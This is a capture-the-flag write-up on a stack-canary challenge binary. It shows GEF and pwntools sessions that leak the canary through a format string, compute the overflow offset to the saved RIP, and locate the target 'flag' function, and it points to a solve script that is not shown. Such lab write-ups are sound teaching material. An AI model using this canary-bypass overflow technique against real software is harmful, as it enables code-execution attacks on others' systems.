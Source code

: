 
# Canary

As a sanity check, we can leak the stack canary in GEF by doing the following:

```sh
$ gdb ./canary
gef> break greet
gef> run
gef> canary
gef> nexti
gef> nexti
gef> nexti
gef> nexti
[+] Found AT_RANDOM at 0x7fffffffe3d9, reading 8 bytes
[+] The canary of process 3493 is 0xba8e9239e44d3900
gef> x/12xg $rsp
0x7fffffffdfa0: 0x000000000000000a      0x00007ffff7e74193
0x7fffffffdfb0: 0x0000000000000019      0x00007ffff7faf760
0x7fffffffdfc0: 0x0000000000400c17      0x00007ffff7e691ea
0x7fffffffdfd0: 0x0000000000000000      0x00007fffffffe000
0x7fffffffdfe0: 0x00000000004006a0      0x00007fffffffe100
0x7fffffffdff0: 0x0000000000000000      0xba8e9239e44d3900
```

Note that the stack canary is the last quadword shown in the output.

After comparing format string leaked stack value output and output from GEF's `canary` command, we can observe that the stack canary will be the 17th item leak from our format string.

We can next find the offset (in bytes) needed to overwrite the stack cookie with the following:

```sh
# Generate cyclic pattern.
pwn cyclic -n 8 128

# Start debugging and break where the stack cookie comparison occurs.
gdb ./canary
gef> break *0x400945
gef> run

# Using the observe RAX value from the above debugging, we can find the offset
# to the stack cookie.
$ pwn cyclic -n 8 -l 0x6161616161616168
56
```

Since the stack cookie is stored before the stored RBP and RIP addresses on the stack, we must add 16 to our offset to get the offset to overwrite RIP.

We get the `flag` address that we want to overwrite RIP with:

```sh
# Find the address of the flag function.
$ nm -s ./canary | grep flag
0000000000400787 T flag
```

And we now have enough information to fire the exploit. This is all put together in the solution script [here](./solve.py)
